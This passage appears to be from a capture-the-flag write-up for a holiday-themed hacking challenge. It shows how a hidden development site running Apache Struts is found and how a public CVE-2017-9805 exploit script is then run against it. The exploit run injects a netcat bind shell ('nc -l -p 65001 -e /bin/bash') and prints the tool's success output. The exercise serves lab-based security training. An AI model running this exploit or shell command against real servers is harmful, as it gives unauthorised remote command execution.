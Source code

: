 ```
       |  (|42 | () | DA|)  |       _   ___  _______
       \  /;---'    '---;\  /      | | |   ||       |
        `` \ ___ /\ ___ / ``       | |_|   ||____   |
            `|  |  |  |`           |       | ____|  |
      jgs    |  |  |  |            |___    || ______| ___
       _._  |\|\/||\/|/|  _._          |   || |_____ |   |
      / .-\ |~~~~||~~~~| /-. \         |___||_______||___|
      | \__.'    ||    '.__/ |
       `---------''---------`
Congratulations! You've won, and have successfully completed this challenge.
```

## 2

> Investigate the Letters to Santa application at https://l2s.northpolechristmastown.com. What is the topic of The Great Book page available in the web root of the server? What is Alabaster Snowball's password? 

In l2s.northpolechristmastown.com

> <a href="http://dev.northpolechristmastown.com" style="display: none;">Access Development Version</a>

In dev page...

```
<p class="center-it">
	Powered By: <a href="https://struts.apache.org/">Apache Struts</a>
	<!-- Friend over at Equal-facts Inc recommended this framework-->
</p>
```

> https://github.com/chrisjd20/cve-2017-9805.py

```
$ python2 cve-2017-9805.py -u "https://dev.northpolechristmastown.com/orders/1852" -c "/usr/bin/nc -l -p 65001 -e /bin/bash"
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
```

